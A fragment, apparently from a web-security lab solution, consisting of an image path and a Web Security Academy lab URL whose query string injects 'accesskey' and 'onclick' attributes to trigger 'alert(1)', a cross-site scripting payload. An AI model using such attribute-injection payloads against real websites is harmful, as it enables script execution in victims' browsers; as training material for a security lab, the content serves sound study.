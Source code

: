https://ac7d1f541f554b75c0ff20f900e500a9.web-security-academy.net/?%27accesskey=%27x%27onclick=%27alert(1)
